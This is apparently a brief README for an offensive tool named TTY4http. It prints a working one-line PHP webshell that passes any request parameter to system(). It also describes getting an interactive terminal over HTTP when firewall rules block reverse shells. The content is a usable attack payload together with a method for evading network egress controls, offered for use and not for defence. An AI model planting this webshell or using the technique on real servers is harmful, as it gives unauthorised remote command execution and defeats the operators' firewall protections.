 # TTY4http

Using a basic webshell:

```php
// webshell
<?php 
    system($_REQUEST['cmd']); 
?>
```

Obtain a tty by http, ideal for when iptables rules are implemented, preventing the option of a reverse shell by tcp or udp.
